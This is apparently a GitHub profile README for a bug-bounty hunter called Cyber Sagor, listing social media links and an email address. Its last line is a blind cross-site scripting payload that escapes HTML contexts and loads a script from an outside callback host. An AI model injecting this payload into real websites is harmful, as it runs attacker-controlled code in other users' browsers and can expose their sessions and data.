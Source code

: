 # Hi,
I am Cyber Sagor known as Professor the Hunter.

>𝙵𝚊𝚌𝚎𝚋𝚘𝚘𝚔: https://facebook.com/bughuntar

>𝚃𝚠𝚒𝚝𝚝𝚎𝚛: https://twitter.com/bughuntar

>𝙻𝚒𝚗𝚔𝚎𝚍𝙸𝚗: https://linkedin.com/in/bughuntar

>𝚈𝚘𝚞𝚃𝚞𝚋𝚎: https://youtube.com/bughuntar

>𝙶𝚖𝚊𝚒𝚕: bughuntar@gmail.com


# Sticker
😍🥰🥲🤩😊🙃🤔

<!---
cybersagor/cybersagor is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

```javascript
'"/></script></textarea><script src=https://1.bxss.in></script>//<"
```
